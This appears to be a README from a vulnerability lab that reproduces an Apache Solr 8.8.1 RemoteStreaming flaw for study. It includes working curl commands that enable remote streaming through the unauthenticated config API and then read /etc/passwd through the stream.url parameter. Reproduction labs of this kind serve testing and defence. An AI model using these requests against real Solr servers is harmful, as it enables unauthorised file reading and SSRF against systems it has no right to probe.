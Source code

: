 # Apache Solr RemoteStreaming Arbitrary File Reading and SSRF

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open-source search server. When Apache Solr does not have authentication enabled, an attacker can craft a request to enable specific configurations, potentially leading to Server-Side Request Forgery (SSRF) or arbitrary file reading vulnerabilities.

References:

- <https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ>

## Environment Setup

Execute the following command to start an Apache Solr 8.8.1 server:

```
docker compose up -d
```

After the server starts, you can access the Apache Solr management interface at `http://your-ip:8983/`.

## Vulnerability Reproduction

First, visit `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json` to extract the database name:

![](1.png)

Send the following request to modify the configuration of the `demo` core and enable `RemoteStreaming`:

```
curl -i -s -k -X $'POST' \
     -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
     $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

Then, you can read arbitrary files through the `stream.url` parameter:

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)
